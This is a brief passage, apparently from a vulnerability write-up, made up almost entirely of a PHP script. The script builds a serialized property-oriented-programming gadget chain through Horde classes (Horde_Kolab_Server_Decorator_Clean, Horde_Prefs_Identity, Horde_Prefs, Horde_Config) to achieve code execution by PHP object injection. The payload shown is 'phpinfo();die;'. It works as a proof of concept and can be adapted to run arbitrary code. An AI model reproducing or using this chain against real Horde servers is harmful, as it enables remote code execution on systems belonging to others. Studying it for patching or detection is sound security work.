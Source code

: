 <p class="cn" markdown="1">Here is the completed POP chain I used:</p>

```php
<?php

class Horde_Config{
   protected $_oldConfig = "phpinfo();die;";
}

class Horde_Prefs_Scope implements Serializable{

    protected $_prefs = array(1);
    protected $scope;

    public function serialize()
    {
        return json_encode(array(
            $this->scope,
            $this->_prefs
        ));
    }

    public function unserialize($data)
    {
        list($this->scope, $this->_prefs) = json_decode($data, true);
    }

}

class Horde_Prefs{
   protected $_opts, $_scopes;
   function __construct()
   {
      $this->_opts['sizecallback'] = array(new Horde_Config, 'readXMLConfig');
      $this->_scopes['horde'] = new Horde_Prefs_Scope;
   }
}

class Horde_Prefs_Identity{
   protected $_prefs, $_prefnames, $_identities;
   function __construct()
   {
      $this->_identities = array(0);
      $this->_prefs = new Horde_Prefs;
      $this->_prefnames['identities'] = 0;
   }

}

class Horde_Kolab_Server_Decorator_Clean
{
   private $_server, $_added;
   function __construct()
   {
      $this->_added = array(0);
      $this->_server = new Horde_Prefs_Identity;
   }

}

$popchain = serialize(new Horde_Kolab_Server_Decorator_Clean);
echo $popchain;
```
